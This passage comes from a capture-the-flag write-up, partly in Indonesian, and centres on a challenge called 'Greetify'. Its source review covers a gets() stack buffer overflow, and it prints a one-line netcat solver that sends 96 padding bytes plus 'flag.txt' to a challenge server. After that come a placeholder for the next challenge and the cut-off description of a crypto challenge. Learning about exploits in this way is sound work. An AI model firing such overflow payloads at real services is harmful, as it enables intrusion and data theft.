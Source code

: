 
# 4. Greetify
*Author: NeoZap*

Because I'm feeling lonely, I made an application to greet me. But I'm sure that I'm not the only one who's lonely, so I made it in a way that it can greet anyone. However, I'm not sure if it's safe to use. Can you help me check it?

Flag is at `flag.txt`

`nc 34.101.174.85 10001`

### Source Code Review
Di sini, program mendeklarasikan array `name` dengan panjang 88 byte, lalu menggunakan `gets()` untuk membaca input pengguna ke dalam `name`. Karena `gets()` tidak melakukan pengecekan panjang, pengguna dapat memasukkan lebih dari 88 byte data, yang akan menimpa data di memori yang berdekatan

### Case Identification
Lihat proteksi yang nyala pada file binary dengan `checksec`

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
Karena tidak ada stack canary, langsung saja lakukan overflow ke programnya.

### Solution
Pada source code, terlihat bahwa variabel `name` menyimpan buffer sebanyak 88 byte. Jadi kita akan melakukan overflow sebanyak 96 bytes karakter + string `flag.txt`. 96 karakter didapat dari ukuran variable `name` dan 8 bytes padding. Berikut adalah solvernya :

    python2 -c "print 'A'*96 + 'flag.txt'" | nc 34.101.174.85 10001

![greetify-flag](images/greetify-flag.png)

# 5. Lets Jump
To be added soon.

# 6. Seems Familiar
*Author: potsu*

Your friend has developed an AES-based enryption system in his spare time. That system is very limited and only able to use printable characters, and furthermore, two of four of its functions has yet to be fixed. Even though they are broken, he insisted the flag can be acquired through thorough analysis of the encryption itself. Feeling intrigued, you feel like you are able to get the flag.
